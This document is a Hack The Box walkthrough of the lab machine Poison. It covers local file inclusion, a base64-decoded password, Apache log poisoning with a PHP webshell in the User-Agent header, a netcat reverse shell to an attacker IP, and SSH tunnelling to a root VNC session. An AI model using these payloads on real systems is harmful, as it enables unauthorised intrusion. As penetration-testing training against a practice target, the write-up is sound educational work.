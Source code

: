 # Exercise: Exploiting VNC for initial access in Hack The Box machine Poison



An nmap scan shows that this machine is running FreeBSD and has port 22 \(SSH\) and port 80 \(HTTP\) open.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Poison]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- poison.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
<SNIP>
80/tcp open http Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Navigating to the website, there is a home page suggesting that various PHP files can be tested \(Figure 4-6\).



![Home page of Poison machine](../.gitbook/assets/4%20%287%29.png)

Inputting one of the filenames listed results in the contents of that file being listed. If we enter listfiles.php, the output is:

```text
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => 
info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => 
pwdbackup.txt )
```

 The PHP code is creating an array of filenames. The interesting one is pwdbackup.txt which if we access has the contents:

```bash
This password is secure, it's encoded atleast 13 times.. 
what could go wrong really..
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS…
<SNIP>
```

The encoding format looks like Base64 and so if we simply put the string in a file and decode it13 times we get a password:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $cat password.txt | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d| base64 -d| base64 -d
Charix!2#4%6&8(0
```

Going back to the home page, the input to the text box is simply being passed as a parameter called "file" to be displayed:

`http://poison.htb/browse.php?file=listfiles.php`

This looks like a candidate for local file inclusion \(LFI\) by tampering with the file parameter. If we try the URL

`http://poison.htb/browse.php?file=/etc/passwd`

We get the contents of the passwd file returned.

```bash
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
<SNIP>
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

We can see from the passwd file that there is a user "charix" and using the password we discovered earlier with this, we can SSH into the machine.

This was not the only way that you can gain initial access to the box however. Another way of gaining access is to use a technique called "log poisoning" which involves putting PHP code into the Apache log file that records requests to the site. This log records the URL requested, the protocol, the status code and also the user agent which is the details of the browser client used to make the request. If we put executable PHP into the User Agent header filed in the request and make a request, the next time we use LFI on the log, that code will be executed. The code we can add to the User Agent field is:

```php
<?php system($_GET['c']); ?>
```

This code takes the value in the query parameter 'c' and executes it using the 'system' command. To add the code to the User Agent field, we can use Burp to intercept the request and then change the value in the Repeater tab before sending it to the server:

```markup
GET /browse.php?file=/etc/passwd HTTP/1.1
Host: poison.htb
User-Agent: <?php system($_GET['c']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

We can test this now by sending a new request to view the log file and pass a command via the parameter 'c':

`GET /browse.php?file=/var/log/httpd-access.log&c=id HTTP/1.1`

This will return the contents of the log file and the final line will be:

```bash
10.10.14.135 - - [] "GET /browse.php?file=/etc/passwd HTTP/1.1" 200 1894 "-" "uid=80(www) gid=80(www) groups=80(www)"
```

It took the 'id' command and executed it to return the details of the user 'www'.

We can now execute a reverse shell. Start a Netcat listener on your machine:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
```

We can now poison the log with PHP reverse shell code:

```php
<?php 
  exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.135 6001 >/tmp/f') 
?>
```

When we make the GET request to view the log, we will get a reverse shell:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.135] from (UNKNOWN) [10.129.105.0] 35870
sh: can't access tty; job control turned off
$ whoami
www
```

The shell isn't great and Python is not on the box to use to upgrade it. If you had got access this way, it would have ben to explore the box to find the pwdbackup.txt file and from there the password for the charix user to enable the use of SSH.

Once SSH'd onto the machine, you discover a file secret.zip which you can copy back to your local host using the scp command:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $scp charix@poison.htb:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip 100% 166 0.5KB/s 00:00
```

The file can be unzipped using charix's password to reveal the secret file which has binary data in it but otherwise it is not clear what it is for.

Back to enumeration. Looking at the processes running, you will notice a process Xvnc:

```bash
charix@Poison:~ % ps -aux
USER PID %CPU %MEM VSZ RSS TT STAT STARTED TIME COMMAND
root 11 100.0 0.0 0 16 - RL 14:00 30:53.63 [idle]
root 0 0.0 0.0 0 160 - DLs 14:00 0:00.01 [kernel]
root 1 0.0 0.1 5408 976 - ILs 14:00 0:00.01 /sbin/init --
root 2 0.0 0.0 0 16 - DL 14:00 0:00.00 [crypto]
<SNIP>
root 614 0.0 0.9 23620 8868 v0- I 14:00 0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tight
root 625 0.0 0.7 67220 7048 v0- I 14:00 0:00.03 xterm -geometry 80x24+10+10 -ls -title X Desktop
root 626 0.0 0.5 37620 5312 v0- I 14:00 0:00.01 twm
```

To get more information, we can display the process information in more detail:

```bash
charix@Poison~ % ps -auxww | grep vnc
root 614 0.0 0.9 23620 8868 v0- I 14:00 0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

From this, we know that TightVNC is running as user root and this is listening on port 5901 on localhost. To access the VNC server, you first set up a tunnel using:

```bash
charix@Poison:~ %
ssh> -D 1080
Forwarding port.
```

On our local box, you can confirm that you can access this port by using:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $proxychains curl --http0.9 http://127.0.0.1:5901
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5901-<><>-OK
RFB 003.008
```

Note that you used proxychains here to access the VNC server. You could have used the --socks5 argument to curl as well.

We can then run vncviewer using proxychains. This asks for a password and so trying the "secret" file that you got from unzipping "secret.zip" from charix's home directory:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Poison]
└──╼ $proxychains vncviewer -passwd secret 127.0.0.1:5901
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5901-<><>-OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
```

Which launches a VNC session as root \(Figure 3-7\)



![VNC session as root on Poison](../.gitbook/assets/5%20%285%29.png)



VNC's encryption of passwords is more obfuscation than encryption as the key that is used for the DES encryption is well known. It is trivial to find an application that will decrypt the password in the file "secret" and it turns out to be "VNCP@$$!".

